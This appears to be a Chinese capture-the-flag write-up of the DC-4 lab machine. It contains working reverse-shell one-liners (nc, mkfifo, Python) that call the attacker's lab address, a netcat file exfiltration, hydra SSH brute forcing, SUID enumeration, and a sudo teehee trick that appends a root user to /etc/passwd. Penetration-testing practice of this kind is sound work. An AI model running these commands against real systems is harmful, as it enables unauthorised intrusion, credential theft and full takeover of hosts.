


# DC-4
照例取得ip,扫描端口
nmap -sV -O -p- -T4 -sS 192.168.111.137

开放了22和80端口

80端口是一个登录页面

进行目录扫描,也没有啥结果
试一下弱口令和万能密码

账号密码admin/happy
进去页面有三个功能

执行会回显代码,抓包看看执行的命令参数能否控制

可以控制,尝试执行反弹shell
```
kali上监听4444

nc -e /bin/bash 192.168.111.128 4444
交互式rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.111.128 4444 >/tmp/f
```

但此时并不是完整的shell,目标机上有python环境,升级shell环境
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.111.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
在jim用户下发现文件

其中mbox没有权限打开
下载备份文件
```
kali:
nc -lvnp 5555 > DC-4

目标机:
nc 192.168.111.128 5555 <
```
得到一些密码,很有可能可以作为ssh的密码
试一下ssh爆破
用工具hydra
```
hydra -l jim -P DC-4.txt 192.168.111.128 ssh
```

使用ssh登录

看一下能否suid提权
```
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

```

ping无法suid提权
尝试的时候显示收到一封邮件

直接给了密码^xHhA&hvim0y
切换用户登录
切换直接提示错误,密码都不给输
提示:用户“Charles”没有 passwd 条目
用户名小写解决
登陆成功后看有无suid提权
结果一样
看看sudo提权,sudo -l 

能利用teeehee
```
teehee命令：teehee命令可以往一个文件中追加内容，可以通过这个命令向/etc/passwd中追加一个超级用户。
```
echo "hack::0:0:::/bin/bash" | sudo teehee -a /etc/passwd


切换hack用户

完成


